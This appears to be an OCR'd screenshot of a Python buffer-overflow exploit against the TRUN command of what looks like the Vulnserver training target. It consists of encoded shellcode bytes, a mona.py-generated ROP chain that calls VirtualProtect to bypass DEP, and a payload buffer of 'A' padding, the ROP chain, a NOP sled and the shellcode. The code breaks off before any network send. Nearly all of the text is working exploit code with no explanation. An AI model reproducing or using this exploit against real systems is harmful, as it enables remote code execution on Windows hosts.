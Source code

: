 ```python
shellcode += b"\xae\xb1\x12\x87\x2f\xe9\x67\x86\xb3\xf0\xbb\x68\x8d"
shellcode += b"\x3a\xce\x69\xca\x27\x23\x3b\x83\x2c\x96\xab\xa0\x79"
shellcode += b"\x2b\x40\xfa\x6c\x2b\xb5\x4b\x8e\x1a\x68\xc7\xc9\xbc"
shellcode += b"\x8b\x04\x62\xf5\x93\x49\x4f\x4f\x28\xb9\x3b\x4e\xf8"
shellcode += b"\xf3\xc4\xfd\xc5\x3b\x37\xff\x02\xfb\xa8\x8a\x7a\xff"
shellcode += b"\x55\x8d\xb9\x7d\x82\x18\x59\x25\x41\xba\x85\xd7\x86"
shellcode += b"\x5d\x4e\xdb\x63\x29\x08\xf8\x72\xfe\x23\x04\xfe\x01"
shellcode += b"\xe3\x8c\x44\x26\x27\xd4\x1f\x47\x7e\xb0\xce\x78\x60"
shellcode += b"\x1b\xae\xdc\xeb\xb6\xbb\x6c\xb6\xde\x08\x5d\x48\x1f"
shellcode += b"\x07\xd6\x3b\x2d\x88\x4c\xd3\x1d\x41\x4b\x24\x61\x78"
shellcode += b"\x2b\xba\x9c\x83\x4c\x93\x5a\xd7\x1c\x8b\x4b\x58\xf7"
shellcode += b"\x4b\x73\x8d\x58\x1b\xdb\x7e\x19\xcb\x9b\x2e\xf1\x01"
shellcode += b"\x14\x10\xe1\x2a\xfe\x39\x88\xd1\x69\x4c\x47\xd3\x79"
shellcode += b"\x38\x55\xe3\x68\xe4\xd0\x05\xe0\x04\xb5\x9e\x9d\xbd"
shellcode += b"\x9c\x54\x3f\x41\x0b\x11\x7f\xc9\xb8\xe6\xce\x3a\xb4"
shellcode += b"\xf4\xa7\xca\x83\xa6\x6e\xd4\x39\xce\xed\x47\xa6\x0e"
shellcode += b"\x7b\x74\x71\x59\x2c\x4a\x88\x0f\xc0\xf5\x22\x2d\x19"
shellcode += b"\x63\x0c\xf5\xc6\x50\x93\xf4\x8b\xed\xb7\xe6\x55\xed"
shellcode += b"\xf3\x52\x0a\xb8\xad\x0c\xec\x12\x1c\xe6\xa6\xc9\xf6"
shellcode += b"\x6e\x3e\x22\xc9\xe8\x3f\x6f\xbf\x14\xf1\xc6\x86\x2b"
shellcode += b"\x3e\x8f\x0e\x54\x22\x2f\xf0\x8f\xe6\x5f\xbb\x8d\x4f"
shellcode += b"\xc8\x62\x44\xd2\x95\x94\xb3\x11\xa0\x16\x31\xea\x57"
shellcode += b"\x06\x30\xef\x1c\x80\xa9\x9d\x0d\x65\xcd\x32\x2d\xac"

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x76108174,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x74d9abbe,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x749c01ca,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
      0x76f55cea,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x74e00920,  # &Writable location [KERNEL32.DLL] ** REBASED ** ASLR
      0x747a2c2b,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x74d9abc0,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      0x747f9cba,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x90909090,  # nop
      0x7484f95c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

def main():

    rop_chain = create_rop_chain()
    nop_sled = "\x90"*8

    buffer = "TRUN /.:/"
    buffer += "A"*2003
    buffer += rop_chain
    buffer += nop_sled
    buffer += shellcode
    buffer += "C"*(3500-2003-len(rop_chain)-len(nop_sled)-len(shellcode))
```
